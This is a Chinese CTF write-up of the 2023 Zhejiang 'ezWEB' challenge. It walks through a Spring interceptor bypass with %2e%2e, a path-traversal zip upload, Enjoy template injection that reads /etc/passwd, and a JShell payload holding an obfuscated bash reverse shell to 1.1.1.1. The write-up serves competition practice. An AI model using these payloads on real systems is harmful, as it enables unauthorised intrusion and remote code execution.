


# \[CTF复现计划\]2023浙江大学生省赛决赛 ezWEB

原创 datou

[↓↓↓](javascript:)  
  
大头SEC  
  
[↑↑↑](javascript:)

*2023-11-15 15:56* *发表于浙江*

收录于合集 #CTF复现计划 7个

## 前言

“大头SEC”公众号专注于CTF、AWD、AWD Plus、RDG等竞赛题目复现。

在“大头SEC”公众号正式开始运营以前，“CTF复现计划”已经运营了一段时间，“CTF复现计划”旨在解决各位CTFer在赛后因平台关闭导致无法复现的问题。截止10月18日，“CTF复现计划”已经在语雀公开分享20余个复现环境，30余篇WriteUp。（“CTF复现计划”语雀直达链接：https://www.yuque.com/dat0u/ctf）

而在“大头SEC”公众号中会分享“CTF复现计划”中相对精彩的竞赛题目，同样也提供复现环境及WriteUp。

## 题目信息

> 本题涉及知识点：Java代码审计、低版本SpringBoot权限绕过、zip-slip、Enjoy引擎注入、springMacroRequestContext、高版本JDK绕Module

-   • 题目类型：CTF
    
-   • 题目名称：2023浙江大学生省赛决赛 ezWEB
    
-   • 题目镜像：ccr.ccs.tencentyun.com/lxxxin/public:zjctf2023\_final\_ezweb
    
-   • 内部端口：9124
    
-   • 题目附件：启动容器后，输入框中输入../ezWEB-0.0.1-SNAPSHOT.jar下载附件
    

## 启动脚本

请确保本地安装了docker命令，并且确保12345端口未被占用，然后以root权限运行下方命令，运行成功后会返回一串16进制字符串（此为容器ID），表示容器运行成功，接着打开Chrome或者Firefox浏览器，用浏览器访问12345端口

```plain
docker run -it -d -p 12345:9124 -e FLAG=flag{8382843b-d3e8-72fc-6625-ba5269953b23} ccr.ccs.tencentyun.com/lxxxin/public:zjctf2023_final_ezweb
```

## WriteUp

启动容器，访问页面，提示下载hint.txt


image.png

hint.txt中提示可以访问../ezWEB-0.0.1-SNAPSHOT.jar下载附件，且题目使用jdk18


image.png

下载附件反编译后，目录结构如下：


image.png

先看pom依赖，这里用了SpringBoot 2.3.0


image.png

用了以下依赖：

-   • Enjoy作为模板引擎
    
-   • ant 1.9.11存在zip-slip（后面说）
    


image.png

再看Intercept拦截器，当preHandle返回true时才会继续执行Controller部分代码，所以需要让if返回true；

想要让if返回true，就需要uri里包括`..`、`./`且uri以`/index`开头


image.png

本题还将Enjoy模板引擎与SpringBoot进行了整合：

-   • Enjoy模板引擎官方整合文档：https://jfinal.com/doc/6-10
    
-   • 这里的模板存储路径为/usr/src/app/template
    
-   • 模板后缀为.html
    



image.png

再看AdminController路由：

-   • 这里的Controller都是直接返回Model，没有@ResponseBody，所以/admin/hello路由会做模板渲染，如果我们访问/admin/helllo，会去渲染admin/hello.html并返回
    


image.png

那么如何绕过Intercept拦截器的权限验证呢？

注意到，本题的SpringBoot版本为2.3.0，对应的Spring版本为5.2.6，该版本的Spring在使用preHandle拦截器时，如果使用request.getRequestURI判断可能存在权限绕过，在本题存在以下绕过手法：

-   • 传入`/index/%2e%2e/admin/hello`，request.getRequestURI()会获取到`/index/%2e%2e/admin/hello`  
    • 传入 `/index/%2e%2e/admin/hello` ，request.getRequestURI（）会获取到 `/index/%2e%2e/admin/hello`
    
-   • `/index/%2e%2e/admin/hello`是符合if判断的，并且preHandle会返回true
    
-   • 在CoyoteAdapter#postParseRequest中（Tomcat）会做URL解码和`/index/../`的路径合并
    
-   • 在Mapper#internalMapWrapper（Tomcat）中会对wrapperPath赋值
    
-   • 在UrlPathHelper#getPathWithinServletMapping（Spring）中会做路由比较，进入到符合条件的Controller
    

具体代码跟进可以参考下方文章：

-   • https://forum.butian.net/share/829  
    • https://forum.butian.net/share/829
    

将下方请求打过去，返回500表示成功绕过，如果返回200则为绕过失败，因为目前靶机没有admin/hello.html模板文件，所以会返回500

```plain
GET /index/%2e%2e/admin/hello HTTP/1.1
Host: 192.168.59.190:32771
```


image.png

权限绕过之后就要思考如何攻击了，本题一共两个Controller，分别是：UserController、AdminController，接下来仔细分析这两个Controller的功能点：

IndexController提供了文件读取的功能，但是过滤了传入的参数，flag和proc都被过滤了


image.png

AdminController提供了文件上传的功能，仅允许我们上传zip文件，并且解压路径是直接做字符串拼接且无过滤，因此这里可以用`../`穿越路径让其解压到template目录中



image.png

上传后的文件会交给UploadService解压，跟进UploadService#extractAllForZipFile，这里用的是ant 1.9.11，该版本存在zip-slip，但由于这里可以拼接路径穿越到template目录，因此就不用zip-slip了

整理一下到目前的思路：

1.  1. 利用SpringBoot的%2e特性未授权访问到/admin/upload路由
    
2.  2. 往/admin/upload上传一个zip文件，名为admin.zip，包含hello.html，并在文件名位置做穿越，将hello.html覆盖到/template/admin/hello.html中
    
3.  3. 同样利用SpringBoot的%2e特性未授权访问到/admin/hello，渲染hello.html完成攻击
    

那么hello.html的内容应该怎么写呢？参考enjoy模板引擎的官方文档：

-   • https://jfinal.com/doc/6-4
    

在jfinal中存在`#include`指令，可以读取文件


image.png

所以，我们编写一个hello.html，并将其打包为admin.zip

```plain
#include("../../../../../../../../../../../../../etc/passwd")
```


image.png

由于python的request会自动对%2e做解码和路径归并，BurpSuite的Paste from file经常出现文件内容损坏，所以这里选择使用Yakit发送：

```plain
POST /index/%2e%2e/admin/upload HTTP/1.1
Host: 192.168.59.190:32781
Content-Length: 184
Content-Type: multipart/form-data; boundary=------------------------AgbYfFaagxYfgukTWgbjdFUizVgtnOrqnpGiRFkn

--------------------------AgbYfFaagxYfgukTWgbjdFUizVgtnOrqnpGiRFkn
Content-Disposition: form-data; name="file"; filename="../template/admin.zip"

{{file(/path/to/admin.zip)}}
--------------------------AgbYfFaagxYfgukTWgbjdFUizVgtnOrqnpGiRFkn--
```


image.png

然后再构造请求去访问/admin/hello页面即可：

```plain
GET /index/%2e%2e/admin/hello HTTP/1.1
Host: 192.168.59.190:32781
```


image.png

至此，我们已经完成了任意文件读取。

那么如何命令执行呢？阅读Enjoy模板的官方文档：

-   • https://jfinal.com/doc/6-3
    

在5.0.2版本以前，是可以通过调用静态方法的，但题目版本为5.1.2


image.png

这里命令执行的方法为：利用springMacroRequestContext获取jfinalViewResolver这个Bean，然后调用engine去将setStaticMethodExpression设置为true


image.png

完整的做法如下：

-   • 编写一个hello.html，内容为第一行所示，开启Enjoy模板的静态方法支持
    
-   • 因为题目为JDK18，调用JShell执行命令不受Module限制
    
-   • 将hello.html和upload.html打包为admin.zip
    

```plain
#(springMacroRequestContext.webApplicationContext.getBean('jfinalViewResolver').engine.setStaticMethodExpression(true))
#((jdk.jshell.JShell::create()).eval('Runtime.getRuntime().exec(new String("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzI5OTk5IDA+JjE=}|{base64,-d}|{bash,-i}"));'))
zip admin.zip hello.html upload.html
```


image.png

上传admin.zip


image.png

访问/admin/hello路由，开启Enjoy模板的静态方法支持


image.png

调用JShell实现命令执行


image.png

成功反弹shell（当然，hint提示不出网，可以尝试注入内存马，或者将命令执行结果写入到临时文件后读取）


image.png

当然，本题还有以下几个延伸：

直接在filename中穿越路径可能算是半个非预期，出题人预期应该是zip-slip，题目对文件名做了startsWith验证，所以可以slip一个`./../../template/admin/hello.html`压缩包绕过验证并覆盖


image.png

除了使用JShell绕过Module，还有一些其他姿势可以绕过，参考下方链接：

-   • https://t.zsxq.com/14SBDZVP2
    
-   • https://t.zsxq.com/146VKiXjB
    
-   • https://t.zsxq.com/14TECp9cK
    

## “CTF复现计划”交流群

1.  1\. 语雀群文档：https://www.yuque.com/dat0u/ctf
    
2.  2. 有需要复现的CTF赛题可以直接call群主（大头）
    
3.  3. 本群提供赛题制作、赛题WriteUp编写等服务
    
4.  4. 各位师傅可以随意拉人
    
5.  5\. 因群聊已超200人，无法通过二维码扫描加入，可以加vx：DatouYoo（备注CTF复现计划）
    


image.png


**大头SEC**

本公众号专注于CTF、AWD、AWD Plus、RDG等竞赛题目复现

8篇原创内容

公众号
